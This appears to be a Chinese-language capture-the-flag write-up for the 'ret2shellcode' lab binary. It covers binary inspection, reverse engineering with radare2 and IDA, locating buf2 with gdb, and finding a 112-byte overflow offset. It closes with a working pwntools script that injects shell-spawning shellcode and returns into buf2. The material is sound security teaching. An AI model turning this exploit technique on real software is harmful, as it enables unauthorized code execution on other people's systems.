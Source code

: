 # ret2shellcode
## 執行結果

會自動印出 " No system for you this time !!!"

接著輸入任意字串

就會印出 "bye bye ~"

結束執行

![image](https://user-images.githubusercontent.com/22366572/148738726-f6408add-6f6b-42b3-9624-7afbfea8d595.png)

## 分析步驟
### Step 1 : 獲得檔案的基本資料

指令: ```file [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719601-e694ff03-15c6-41e8-91e0-63f9528e3fc8.png)

可以看到它是在 GNU/Linux 2.6.24 上編譯的，dynamically linked (動態連接的)，ELF 32-bit LSB executable

### Step 2 : 看開啟了哪些保護機制

指令: ```checksec [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719750-61ca71ad-4ce4-4565-ac46-e310794b4f09.png)

可以看到這個執行檔沒有開啟保護機制

### Step 3 : 做逆向工程

1. 使用 radare2 做逆向工程

main逆向指令:
```
r2 ret2shellcode
aa
afl
s main
VV
```
![image](https://user-images.githubusercontent.com/22366572/148738318-e9c4df11-94c9-4fab-a1fe-bc1cd3628721.png)

main 組語:

![image](https://user-images.githubusercontent.com/22366572/148738426-65ea99e6-0861-4f5b-902c-2fadfeef4aec.png)
![image](https://user-images.githubusercontent.com/22366572/148738519-df170b94-4552-46f6-9b29-a91c08774fe8.png)

從上面可以觀察到輸入的字串會儲存在 **buf2** 裡，或許可以在 buf2 裡塞 shellcode 來執行我們想要的指令 

2. 使用 IDA 做逆向工程

將檔案匯入IDA，即可看到組語

![image](https://user-images.githubusercontent.com/22366572/148740280-53add0f9-f2b3-4294-898b-f327affc5f13.png)


### Step 4 : 確認 buf2 是否有可執行能力

指令:
```
gdb ./ret2shellcode
b main                # 給一個breakpoint
r                     # 執行
```

![image](https://user-images.githubusercontent.com/22366572/148740688-47bd3855-3e0f-434c-acf1-a3a8ac6f7b58.png)

![image](https://user-images.githubusercontent.com/22366572/148741213-6a36cef4-3ccf-4132-8934-0d2d05630b25.png)
![image](https://user-images.githubusercontent.com/22366572/148741276-eb742942-e9d4-4bb6-bba5-bab5ba444445.png)

**接著我們要來找 buf2 的位置**

指令:
```
vmmap
```

![image](https://user-images.githubusercontent.com/22366572/148741876-414772bb-c0dc-4824-b5de-e6b9479acb01.png)

因為從上面用 radare2 或是 IDA 分析可以看到，buf2 的位置在 0804a080，所以從上面那張圖可以知道 buf2 的位置在 /home/woowater/Lab3/PWN20210824/ROP/ret2， **且狀態是可讀可寫的**

[Perm] :
  
  ![image](https://user-images.githubusercontent.com/22366572/148756873-dee75647-ace7-4856-84d6-940b6c9a7054.png)

### Step 5 : 找到 return address 的位置
先用 python 產生 120 個隨機的字元 :
```
from pwn import *
cyclic(120)
```
![image](https://user-images.githubusercontent.com/22366572/148826938-5eaf0afc-0787-4573-8c21-7dd49db2dab8.png)

```
# 120字元
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

開啟 gdb ，啟動 ret2shellcode ，將剛剛產生的 120 個隨機的字元填進去，看看會發生甚麼事:

![image](https://user-images.githubusercontent.com/22366572/148828010-4283f211-f9a5-42f7-b748-2154eddeee8d.png)
![image](https://user-images.githubusercontent.com/22366572/148828102-624465bd-2689-44cc-8b28-fbcc2fb4f5cd.png)

由上圖可看到，當時跑到 return address 的 EIP 會填進 "daab"，對照產生的120字元可以知道，在跑到 return address 之前需要填進 **112個字元**
```
# 開啟python找到指定字元的方法
from pwn import *
cyclic(120)
cyclic_find(b'daab') # find 'daab' location
```

### Step 6 : 撰寫 shellcode，丟進執行程式裡

**Shellcode :**
```
from pwn import *
sh = process("./ret2shellcode")
payload = asm(shellcraft.sh())
payload = payload.ljust(112,"a")
buf2_addr = 0x804a080
sh.sendline(payload + p32(buf2_addr))
sh.interactive()
```

